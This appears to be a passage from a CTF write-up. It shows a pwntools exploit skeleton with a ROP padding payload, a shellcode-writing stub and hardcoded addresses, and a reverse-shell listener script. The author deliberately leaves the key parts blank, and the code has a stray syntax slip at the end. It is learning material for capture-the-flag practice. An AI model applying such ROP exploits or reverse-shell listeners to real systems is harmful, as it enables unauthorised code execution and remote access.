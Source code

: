 ```py
leak_location = 0x601038
rdx_thing = 0x4005c0
pop_rbp = 0x00000000004004b8

context.arch = 'amd64'

def www(where, what, r12=0, r13=0, r14=0, r15=0):
    return # Lol figure it out

def write_shellcode(where):
    sc = asm('') # Shellcode goes here
    res = b""
    for i in range(0, len(sc), 4):
        res += www(# Something, something)
    return res

payload = b"A"*24
payload += b"" # ROP CHAIN!


assert len(payload) <= 2048
p.sendline(payload)

p.interactive()
p.close()(
```

rev_tcp.py
```py
from pwn import *

l = listen(10000)

l.wait_for_connection()

# Something is needed here!

l.interactive()
```

### Closing statement
I feel like I've conqured ROP now. Well atleast until someone proves me wrong.

<br>
<br>
<br>

## Bahasa Indonesia
Akhir Agustus 2020, temanku ada tanya tentang soal CTF dari sebuah CTF lokal.
